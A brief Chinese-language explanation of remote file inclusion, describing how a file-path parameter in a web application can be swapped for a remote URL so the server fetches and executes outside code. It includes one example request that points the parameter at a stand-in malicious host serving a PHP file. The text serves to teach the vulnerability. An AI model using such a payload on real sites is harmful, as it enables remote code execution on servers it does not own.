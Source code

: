 Web应用程序偶尔会使用参数值来存储文件的位置，以后服务器会要求该文件的位置.

在错误页面中经常可以看到这种情况的一个例子，其中错误页面的实际文件路径存储在参数
值中 -- 例如`example.com/error.php?page=404.php`.

当参数值（即服务器调用文件的路径）可以用远程资源的地址替换时，会发生远程文件包含 
-- 例如：`yoursite.com/error.asp?page=http://anothersite.com/somethingBad.php`
在某些情况下，服务器将处理获取的资源; 因此，如果资源包含与正在使用的框架（ASP，PHP，JSP等）
的服务器端代码匹配的服务器端代码，则很可能资源将被执行，就好像它是Web应用程序的一部分一样.

可以使用外部资源替换参数值，并让服务器获取它并将其内容包含在响应中.